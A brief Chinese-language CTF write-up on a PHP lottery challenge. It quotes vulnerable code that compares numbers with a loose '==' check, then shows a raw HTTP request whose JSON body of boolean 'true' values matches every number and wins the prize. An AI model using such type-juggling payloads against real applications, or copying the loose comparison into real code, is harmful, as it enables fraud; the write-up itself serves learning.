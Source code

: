 挺有意思的题目，可惜看题解了呜呜呜

先发现源码中的js中有关于买彩票的部分

```php
$same_count = 0;
	for($i=0; $i<7; $i++){
		if($numbers[$i] == $win_numbers[$i]){
			$same_count++;
		}
	}
	switch ($same_count) {
		case 2:
			$prize = 5;
			break;
		case 3:
			$prize = 20;
			break;
		case 4:
			$prize = 300;
			break;
		case 5:
			$prize = 1800;
			break;
		case 6:
			$prize = 200000;
			break;
		case 7:
			$prize = 5000000;
			break;
		default:
			$prize = 0;
			break;
```

弱类型判断，直接抓包修改即可

POST /api.php HTTP/1.1
Host: 61.147.171.105:53906
Content-Length: 63
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: application/json
Origin: http://61.147.171.105:53906
Referer: http://61.147.171.105:53906/buy.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=0d5f78683b61ba49ce4a04e7d5f66314
Connection: close

{"action":"buy","numbers":[true,true,true,true,true,true,true]}

可以获取足够的钱来买flag